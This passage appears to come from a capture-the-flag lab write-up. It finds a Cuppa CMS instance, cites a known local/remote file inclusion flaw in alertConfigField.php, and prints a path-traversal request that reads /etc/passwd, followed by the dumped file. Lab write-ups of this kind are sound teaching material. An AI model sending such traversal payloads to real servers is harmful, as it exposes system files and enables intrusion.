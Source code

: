 We get Cuppa CMS login page. I tried default credentials and Miles Dyson's ones but without any success. I searched online for some known vulnerabilities and I found some Local File Inclusion/Remote File Inclusion (LFI/RFI) on `alerts/alertConfigField.php` page

- [https://www.exploit-db.com/exploits/25971](https://www.exploit-db.com/exploits/25971)  

We can try to confirm the vulnerability with this request

```
http://10.10.32.183/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

![](/assets/img/skynet-etc-passwd.PNG) 

Content prettified

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
milesdyson:x:1001:1001:,,,:/home/milesdyson:/bin/bash
dovecot:x:111:119:Dovecot mail server,,,:/usr/lib/dovecot:/bin/false
dovenull:x:112:120:Dovecot login user,,,:/nonexistent:/bin/false
postfix:x:113:121::/var/spool/postfix:/bin/false
mysql:x:114:123:MySQL Server,,,:/nonexistent:/bin/false 
```
